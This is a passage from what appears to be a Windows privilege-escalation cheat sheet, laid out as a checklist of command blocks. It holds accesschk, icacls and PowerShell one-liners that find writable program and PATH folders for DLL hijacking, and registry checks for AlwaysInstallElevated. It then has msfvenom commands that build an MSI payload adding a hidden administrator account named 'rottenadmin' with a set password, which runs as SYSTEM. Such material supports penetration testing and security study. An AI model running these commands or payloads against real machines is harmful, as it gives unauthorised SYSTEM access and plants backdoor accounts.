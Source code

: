        # Find all weak file permissions per drive.
       accesschk.exe -uwqs Users c:\*.*
       accesschk.exe -uwqs "Authenticated Users" c:\*.*
       accesschk.exe -uwdqs "Everyone" c:\*.*
       
       # using icalcs
       icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
       icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"
       
       # using Powershell
       Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

       Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
      ```
*   [ ] &#x20;PATH DLL Hijacking

    ```
     # having write permissions inside a folder present ON PATH could bring to DLL hijacking
     for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
    ```
*   [ ] &#x20;AlwaysInstallElevated set in Registry

    ```
     # if both are enabled (set to 0x1), it's possible to execute
     # any .msi as NT AUTHORITY\SYSTEM
     reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     
     # check with msf
     exploit/windows/local/always_install_elevated
     
     # generate payload with msfvenom
     # no uac format
     msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi
     # using the msiexec the uac wont be prompted
     msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi
     